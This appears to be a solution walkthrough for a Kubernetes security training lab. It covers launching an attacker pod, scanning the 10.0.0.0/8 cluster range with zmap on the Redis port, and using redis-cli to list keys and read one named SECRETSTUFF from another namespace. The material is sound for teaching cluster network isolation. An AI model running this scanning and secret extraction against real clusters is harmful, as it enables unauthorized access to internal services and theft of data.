


## 🎉 Solution & Walkthrough

### 🎲 Method 1

* Let's run the `hacker-container` in the default namespace by using the following command to get started

```bash
docker pull madhuakula/hacker-container
kubectl run -it hacker-container --image=madhuakula/hacker-container -- sh
```

:::tip

If you don't see the terminal TTY, just press Enter key on your keyboard.

:::

* First, we need to understand the cluster IP range information so that we can use the port scanners to scan the entire cluster range as we don't know which IP address these what services are running

* Some of the simple commands to understand and get more information about the network are as below

```bash
ip route
```

```bash
ifconfig
```

```bash
printenv
```



* Based on the analysis/understanding of the system. We can run the internal scan for the entire cluster range using `zamp` on port 6379 (the default port of Redis - assuming the cache service is Redis, but there is no limit for the testing here, in real-world we see a lot of internal services like ElasticSeach, Mongo, MySQL, etc.)

```bash
zmap -p 6379 10.0.0.0/8 -o results.csv
```

:::note

To run `zmap` on 10.0.0.0/8 you may need adjust the blacklist (/etc/zmap/blacklist.conf) configuration

:::




* Let's look at the results returned from the scan so that we can see if we can access them from the current pod and current namespace


:::tip

There is also another way to access the services/pods in the Kubernetes. For example using the [DNS](https://kubernetes.io/docs/concepts/services-networking/service/#dns) `cache-store-service.secure-middleware` (servicename.namespace).

:::

* As we have identified the IP address of the service, now we can use the default `redis` using client `reds-cli` to talk to the service and explore

```bash
redis-cli -h 10.12.0.2
```

* To get all the available keys

```bash
KEYS *
```

* To get the specific key information using `GET`

```bash
GET SECRETSTUFF
```

:::tip

There are many other services and resources exposed within the cluster like ElasticSearch, Mongo, etc. So if your recon skill is good then you got a gold mine here.

:::
